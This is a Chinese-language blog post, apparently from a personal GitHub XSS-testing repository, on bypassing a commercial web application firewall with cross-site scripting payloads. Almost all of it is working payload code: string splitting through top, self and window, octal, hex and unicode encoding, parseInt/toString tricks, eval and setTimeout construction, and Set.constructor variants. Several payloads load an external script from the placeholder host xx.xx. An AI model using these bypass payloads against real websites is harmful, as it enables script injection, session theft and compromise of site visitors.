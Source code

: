 ## 前言
- - -
对于我这个菜鸟来说，我通过谷歌百度学习到很多前辈的资料，甚至每句话都是他的指导，我也很感激前辈的为我们铺设的道路，让我们更快的成长起来。我也乐于分享，可能有些知识点过于单调或者久远，请见谅。

## waf
- - -
前几天花了10买了一个月的服务器，换个waf来测试。
![1](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xeuqs6nwj30g60cgdge.jpg)   

### Test

遗漏标签就不测试了，上一篇[水文](https://www.anquanke.com/post/id/176185)的分享的标签也可以过，不信找几个试试= =

好吧非常打脸，拦截了。

![2](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xf5z6pwcj30uj0590t6.jpg)

然而换个prompt()函数???免费版当然是这样的啦，高级服务不仅我买不起，还绕不过啊，而且我不是真正的站长，规则我也不会设啊，总之就是这也不会那也不会。

![3](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xf9uioa9j30uj094wf8.jpg)

![4](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xff076fvj30c80c874l.jpg)

### Top属性类似的补充
- - -
还记得上篇的top属性嘛

![5](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xfxfayjoj30kg04ot8n.jpg)

实际上可以利用的还有好几个，看到这里各位是否get到什么了。

![6](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xju6slwuj30ub06raac.jpg)

我们可以利用的类似拼接的对象又多了几个，例如：
```html
//一家人就是要整整齐齐
<details open ontoggle=top['al'%2B'ert'](1) >
<details open ontoggle=self['al'%2B'ert'](1) >
<details open ontoggle=parent['al'%2B'ert'](1) >
<details open ontoggle=frames['al'%2B'ert'](1) >
<details open ontoggle=content['al'%2B'ert'](1) >
<details open ontoggle=window['al'%2B'ert'](1) >
```
这些都可以绕过waf，总结起来有 `top` `self` `parent` `frames` `content` `window`，无疑`top`是最短的，所谓短小精悍，这里借用PKAV的一张ppt。

![7](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xkryc227j30fp073782.jpg)

### 其他补充
除了拆分构造，我们必须要了解还有编码，这个确实是老生常谈的话题，先看个例子吧

将e字母url编码，成功弹窗也绕过waf。
`<details open ontoggle=top['al%65rt'](1) >`
![11](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xte6v6ioj30uj07bwf4.jpg)

其他编码
```html
JS8编码：
<details open ontoggle=top['al\145rt'](1) >
<details open ontoggle=top['\141\154\145\162\164'](1) >
JS16编码：
<details open ontoggle=top['al\x65rt'](1) >
其他
<details open ontoggle=top[/al/.source%2B/ert/.source](1) >
```
### parseInt()与toString()
- - -
**parseInt()**

![12](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xw3xjyifj30nj0b1dga.jpg)

例子: `alert`字符串用`parseInt函数`，以基数为30转化后为`8680439`


![13](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xw6xbo82j30ff05tq2z.jpg)

**toString()**


![14](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xwe1vapzj30g809z0sx.jpg)

例子: `toString函数`将返回的数字`8680439`,以基数为30还原

![15](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xwgo4zb3j30fl083wen.jpg)

这样你就能理解下面这个例子了。
```html
<details open ontoggle=top[8680439..toString(30)](1); >
<details open ontoggle=top[11189117..toString(32)](1); >
```
![16](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xwsdzqctj30uj0930tj.jpg)

### 俩个例子
- - -
**例1**
```html
<img src=1 alt=al lang=ert onerror=top[alt%2blang](0)>
```
这个例子很巧妙，将`alt`和`lang`属性分别赋值合并起来就是`alert`，并在top属性内将2个属性相加。


**例2**
```html
 <details open ontoggle=top[a='al',b='ev',b%2ba]('alert(1)')>
```
在top属性内添加2个变量，并赋值构造eval，然后执行alert(1)

测试下，拦截了。
![8](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xodipv2ej30uj05hmxm.jpg)

其实waf拦截的是alert这个关键字，换个`prompt()`函数就过了

![9](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xoh9uty6j30uj086q3n.jpg)

也可以选择将`alert(1)`编码，因为有eval存在啊，直接拿来用

```html
<details open ontoggle=top[a='al',b='ev',b%2ba](atob('YWxlcnQoMSk='))>
<details open ontoggle=top[a='al',b='ev',b%2ba]('\141\154\145\162\164\50\61\51')>
<details open ontoggle=top[a='al',b='ev',b%2ba]('\u0061\u006c\u0065\u0072\u0074\u0028\u0031\u0029')>
```

![10](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xom9zf77j30uj097mxz.jpg)

setTimeout()函数也是没问题的，毕竟也能执行代码。 
```html
<details open ontoggle=top[a='meout',b='setTi',b%2ba]('\141\154\145\162\164\50\61\51')>
```

## eval函数的补充
- - -
#### setTimeout

![19](https://ws1.sinaimg.cn/large/005DAKuvgy1g1ycyd6jedj30no0adt90.jpg)

waf拦截
```html
<svg/onload=setTimeout`alert(1)`>
```
![17](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xy2v7lvnj30uj05d74p.jpg)

编码下，就绕过了。
```html
<svg/onload=setTimeout`alert\u0028233\u0029`>
```
![18](https://ws1.sinaimg.cn/large/005DAKuvgy1g1xy76ggesj30uj0813z5.jpg)

#### setInterval

与`setInterval`不同，对于`setTimeout()`只执行code一次。

![20](https://ws1.sinaimg.cn/large/005DAKuvgy1g1yczzsa24j30no0exwf8.jpg)

`<svg/onload=setInterval('al'%2b'ert(1)')>`

![21](https://ws1.sinaimg.cn/large/005DAKuvgy1g1yd573lavj30uj09qwf9.jpg)

绕过waf，引用外部js。
```html
<svg/onload=setInterval(appendChild(createElement('script')).src='http://xx.xx/eeW')>
```
![22](https://ws1.sinaimg.cn/large/005DAKuvgy1g1yd9dqh46j30uj0e4q4j.jpg)

#### 其他
```html
拆分与编码
<svg/onload=\u0073etInterval(appendChild(createElement('script')).src='http://xx.xx/eeW')>
<svg/onload=\u0073etInterval(appendChild(createElement('sc\162ipt')).src='http://xx.xx/eeW')>
<svg/onload=\u0073etInterval(appendChild(createElement('scr'%2b'ipt')).src='http://xx.xx/eeW')>
<svg/onload=\u0073etInterval(\u0061ppendChild(\u0063reateElement('scr'%2b'ipt')).src='http://xx.xx/eeW')>
 
结合函数：
<iframe onload=s=createElement('script');body.appendChild(s);s.src=['http','://','xx.xx','/eeW'].join('') >
<svg/onload=s=createElement('script');body.appendChild(s);s.src=['http']%2B['://']%2B['xx.xx']%2B['/eeW'].join('') >
<svg/onload=s=\u0063reateElement('scr'%2b'ipt');\u0062ody.\u0061ppendChild(s);s.src='http://x'.concat('x.xx/','eeW'); >
```

### 扩展
- - -

关于运用基于DOM的方法创建和插入节点把外部JS文件注入到网页，这种方法在<<XSS跨站脚本gj剖析与防御>>有介绍过。我这里简单演示下，如果你了解或者不感兴趣可以跳过这段。

首先用createElement方法创建一个script标签。

![23](https://ws1.sinaimg.cn/large/005DAKuvgy1g1ydpwjmafj30fh07jt8s.jpg)

接下来给<script>的src属性设置成外部url
 
![24](https://ws1.sinaimg.cn/large/005DAKuvgy1g1ydrl28mhj30fe0b1jrn.jpg)

可以看到<script>标签以及src属性已经被创建出来，但是并不在页面上输出啊。
 
![25](https://ws1.sinaimg.cn/large/005DAKuvgy1g1yf3ujkccj30fe0a174d.jpg)

我们就要用到appendChild()方法将变量s插入页面。

![26](https://ws1.sinaimg.cn/large/005DAKuvgy1g1yf6k40vgj30fg08gt93.jpg)

再来看看页面上

![27](https://ws1.sinaimg.cn/large/005DAKuvgy1g1yf7nce1dj30fe0620ss.jpg)

### constructor属性
- - -

![28](https://ws1.sinaimg.cn/large/005DAKuvgy1g1yk1fdzqmj30fh07idfu.jpg)

少年!Post到什么了没有。

![29](https://ws1.sinaimg.cn/large/005DAKuvgy1g1yk4ibtegj30m3047weh.jpg)

又是拆分。。注意后面的`()`

```html
<svg/onload=Set.constructor('al'%2b'ert(1)')()>
```
![30](https://ws1.sinaimg.cn/large/005DAKuvgy1g1yk7bt75gj30uj09a3z9.jpg)

反引号我看行。。注意后面2个反引号。

```html
<svg/onload=Set.constructor`al\x65rt\x28/xss/\x29```>
```
![31](https://ws1.sinaimg.cn/large/005DAKuvgy1g1ykdta6tvj30uj0943z9.jpg)

又来引用外部url。编码拆分以及结合函数，请参考上章= =，不然我怕有人说我水。。。

![33](https://ws1.sinaimg.cn/large/005DAKuvgy1g1ykjq4xx5j30k00ha3z9.jpg)

```html
<svg/onload=Set.constructor(appendChild(createElement('script')).src='http://xx.xx/eeW')()>
```
![32](https://ws1.sinaimg.cn/large/005DAKuvgy1g1ykhi14qsj30uj0b63zz.jpg)

### 补充(又是补充，你**就不能一次讲完嘛!写个文章还划水!)
- - -

咳咳，该补充的还是要补充的，除了 Set 对象还有嘛？当然有的。

![33](https://ws1.sinaimg.cn/large/005DAKuvgy1g1ykvh8ot8j30ak08rwhp.jpg)

看些例子，都可以弹窗。

![34](https://ws1.sinaimg.cn/large/005DAKuvgy1g1yl20qvebj30sf09rgm2.jpg)

来个简单拆分。

![35](https://ws1.sinaimg.cn/large/005DAKuvgy1g1yl50p5ykj30uj09at9g.jpg)
 
总结起来就是`Set.constructor` `Map.constructor` `clear.constructor` `Array.constructor` `WeakSet.constructor` (注意区分大小写的)

```
<svg/onload=Set.constructor`al\x65rt\x28/xss/\x29```>
<svg/onload=Map.constructor`al\x65rt\x28/xss/\x29```>
<svg/onload=clear.constructor`al\x65rt\x28/xss/\x29```>
<svg/onload=Array.constructor`al\x65rt\x28/xss/\x29```>
<svg/onload=WeakSet.constructor`al\x65rt\x28/xss/\x29```>
```

引用外部...

![36](https://ws1.sinaimg.cn/large/005DAKuvgy1g1ylf0t8nsj306o06ojrl.jpg)

感兴趣的同学可以关注：[Github项目](https://github.com/S9MF/Xss_Test/edit/master/waf/YunSuo.md)

## 参考致谢

[vulnerability-lab.com](http://www.vulnerability-lab.com/resources/documents/531.txt)

[swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection)

